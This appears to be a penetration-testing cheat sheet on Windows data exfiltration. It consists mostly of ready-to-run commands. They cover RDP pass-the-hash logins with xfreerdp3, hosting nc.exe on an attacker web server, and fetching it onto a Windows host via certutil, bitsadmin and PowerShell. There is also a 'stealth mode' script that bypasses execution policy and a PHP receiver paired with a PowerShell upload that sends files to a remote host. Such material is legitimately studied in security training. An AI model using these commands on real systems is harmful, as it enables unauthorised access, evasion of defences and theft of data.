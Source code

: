 # Windows Data Exfiltration

* Use Remote Desktop Session using xfreerdp3 with +clipboard
* Use kali linux NC windows binary
* Locate file transfer utilities on Windows systems
* File copy to/from anonymous samba share with copy
* Download a file using certutil
* Download a file using bitsadmin
* Download a file with PowerShell
* Upload a file with PowerShell

## FreeRDP - A Free Remote Desktop Protocol

* +clipboard
* +auto-reconnect
* /cert:ignore
* /dynamic-resolution
* /v: server
* /pth: pass-the hash NTLM
* /list-kbd show avaliable keyboards

```bash

xfreerdp3 +clipboard +auto-reconnect /u:DOMAIN\\user /p:password /v:remote-ip
xfreerdp3 /list:kbd

# RDP User/Password
xfreerdp3 /u:user /v:ip /p:password /kbd:0x00010407 /dynamic-resolution +auto-reconnect +clipboard
# RDP NTLM Pass-the-hash 
xfreerdp3 /u:user /v:ip /pth:hidden /kbd:0x00010407 /dynamic-resolution +auto-reconnect +clipboard
 
```

## Use Kali Linux NC windows-binary

```bash
sudo apt install windows-binaries
ll /usr/share/windows-binaries/
windows-binaries -h
```

```bash
sudo cp /usr/share/windows-binaries/nc.exe /var/www/html/
```

## Window file copy to and from anonymous samba share

```shells
# upload and download
copy .\path\to\file \\REMOTE-IP\share\upload
copy \\REMOTE-IP\share\download copy .\path\to\file
```

## Download a file using certutil

* We can also use this to download remote files.
* But: Certutil is blocked by Windows Security Antivirus rules.
* -urlcache
* -f file url

```powershell
C:\Users\user> cd Downloads
certutil -urlcache -split -f http://kali-ip/nc.exe nc.exe
```

## Downlaod a file using bitsadmin

```powershell
bitsadmin /create DownloadJob
bitsadmin /addfile DownloadJob http://kali-ip/nc.exe C:\Users\user\Downloads\nc.exe
bitsadmin /resume DownloadJob
bitsadmin /complete DownloadJob
bitsadmin /info DownloadJob /verbose
```

## Downlaod a file using powershell

```powershell
(New-Object Net.WebClient).DownloadFile('http://remote-ip/nc.exe', 'nc.exe')

wget http://remote-ip/nc.exe -o nc.exe

Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe'
Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe' -proxy "http://proxy.contoso.com:8080
```

## Downlaod a file using powershell script with stealth mode

* Bypass security policy and default profiel
* -ExecutionPolicy Bypass
* -NoProfile

* Stealth mode
* -NonInteractive
* -NoLogo

```powershell
type .\wget.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://remote-ip/nc.exe"
$dst = "nc.exe"
$webclient.DownloadFile($url,$dst)

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File .\wget.ps1
```

## Upload File with powershell

* '$' must be escaped in bash scripts
* \$

```bash
cat psupload.php
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
    echo "Upload done.";
else
    echo "Upload error!";
?>
```

```powershell
powershell $response=(New-Object Net.WebClient).UploadFile('http://remote-ip/psupload.php', '.\Upload.txt'); [Text.Encoding]::UTF8.GetString($response)
```
